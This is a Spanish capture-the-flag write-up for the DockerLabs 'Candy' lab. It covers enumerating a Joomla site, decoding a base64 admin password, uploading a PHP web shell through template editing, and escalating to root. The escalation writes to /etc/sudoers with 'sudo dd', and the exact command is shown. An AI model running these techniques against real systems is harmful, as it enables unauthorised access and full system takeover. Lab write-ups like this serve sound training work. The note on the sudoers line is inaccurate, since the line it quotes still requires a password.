

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/candy/index.html · generator: mkdocs

# Candy

*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*
*|http-generator: Joomla! - Open Source Content Management*
*|_http-server-header: Apache/2.4.58 (Ubuntu)*
*| http-robots.txt: 17 disallowed entries (15 shown)*
*| /joomla/administrator/ /administrator/ /api/ /bin/*
*| /cache/ /cli/ /components/ /includes/ /installation/*
*|/language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/*

De primeras se nos da info acerca de un robots.php con una serie de direcciones que deberían estar deshabilitadas.

En la dirección /un_caramelo encuentor en el F12 unas credenciales:

```text
Creds admin:c2FubHVpczEyMzQ1
```

Accedemos al panel de administración -> no nos deja

Está en base64
**sanluis12345**

Conseguimos entrar en el panel de administración
Objetivo -> es encontrar una forma de acceder al servidor o buscar una vulnerabilidad de ejecución remota de código (RCE)
En system -> Site Templates -> Cassiopeia Details and Files
Aquí, podríamos explorar opciones para modificar o cargar archivos

![](../../assets/img/Pasted_image_20251012232710.png)

Subimos un archivo *sh3ll.php*, nos ponemos a la escucha con *nc* y escribimos en la url
*http://172.17.0.2/templates/cassiopeia/sh3ll.php*
**www-data**

## Escalada

sudo -> nada
perm -> nada
ps -> nada

![](../../assets/img/Pasted_image_20251012234535.png)

Intentando hacer
`mysql -h localhost -u luisillo -p`
no podemos entrar al user mysql

Probando a acceder al usuario luisillo con `su luisillo` y poniendo la contraseña
**luisillosuperpassword** conseguimos entrar el usuario luisillo
**luisillo**

*(ALL) NOPASSWD: /bin/dd*
`$LFILE=/etc/sudoers`
`echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
Con esto se consigue escribir en el archivo sudoers que el usuario *luisillo* pueda ejecutar cualquier comando como cualquier usuario del sistema sin necesidad de contraseña
`sudo su`
**root**
